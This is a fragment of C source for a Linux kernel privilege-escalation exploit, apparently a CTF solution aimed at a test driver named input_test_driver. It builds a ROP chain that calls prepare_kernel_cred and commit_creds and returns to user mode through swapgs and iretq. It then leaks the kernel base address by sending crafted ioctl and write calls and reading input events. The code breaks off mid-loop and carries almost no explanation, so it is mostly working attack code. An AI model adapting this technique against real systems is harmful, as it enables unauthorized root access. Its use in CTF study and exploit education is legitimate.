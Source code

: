 ``` c
    uint32_t xchg_32;
    int i = 0;

    size_t pop_rdi_ret = xchg_64 + 0x6170f;
    size_t prepare_kernel_cred = xchg_64 + 0x8fe8f;
    size_t pop_rcx_ret = xchg_64 + 0x285312;
    size_t mov_rdi_rax_rep_pop_rbp_ret = xchg_64 + 0xf2ee;
    size_t commit_creds = xchg_64 + 0x8fadf;
    size_t swapgs_pop_rbp_ret = xchg_64 + 0x4c103;
    size_t iretq = xchg_64 + 0x2bc4f;
    
    xchg_32 = (uint32_t)xchg_64;
    mmap((void *)(xchg_32), 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

    backup_rv();

    ((uint64_t *)xchg_32)[i++] = pop_rdi_ret;
    ((uint64_t *)xchg_32)[i++] = 0;
    ((uint64_t *)xchg_32)[i++] = prepare_kernel_cred;
    ((uint64_t *)xchg_32)[i++] = pop_rcx_ret;
    ((uint64_t *)xchg_32)[i++] = 0;
    ((uint64_t *)xchg_32)[i++] = mov_rdi_rax_rep_pop_rbp_ret;
    ((uint64_t *)xchg_32)[i++] = 0; // for pop rbp
    ((uint64_t *)xchg_32)[i++] = commit_creds;
    ((uint64_t *)xchg_32)[i++] = swapgs_pop_rbp_ret;
    ((uint64_t *)xchg_32)[i++] = 0; // for pop rbp
    ((uint64_t *)xchg_32)[i++] = iretq;
    ((uint64_t *)xchg_32)[i++] = rv.user_rip;
    ((uint64_t *)xchg_32)[i++] = rv.user_cs;
    ((uint64_t *)xchg_32)[i++] = rv.user_rflags;
    ((uint64_t *)xchg_32)[i++] = rv.user_rsp;
    ((uint64_t *)xchg_32)[i++] = rv.user_ss;
}

int main() {
    struct input_event ie;
    int fd1, fd2, ret;
    char payload[416];
    size_t leak = 0xffffffff00000000;
    int i = 0, flag = 0;
    size_t xchg_64;
    
    fd1 = open("/dev/input/event2", O_RDONLY);
    fd2 = open("/dev/input_test_driver", O_RDWR);
    
    // step 1 : leak kernel base address
    write(fd2, "AAAAAAAA", 8);
    ioctl(fd2, 0x1337, NULL);
    close(fd2);

    fd2 = open("/dev/input_test_driver", O_RDWR);
    memset(payload, 0x42, 392);
    write(fd2, payload, 392);

    ioctl(fd2, 0x1337, NULL);
    
    while(1) {
        read(fd1, &ie, sizeof(struct input_event));
        printf("type: %d, code: %d, value: 0x%x \n", ie.type, ie.code, (unsigned char)ie.value);
        if(ie.code == 1 && ie.value == 0x20 || ie.code == 1 && flag) {
            leak = leak | (unsigned char)(ie.value) << (flag * 8);
            flag++;
            if(flag == 4)
```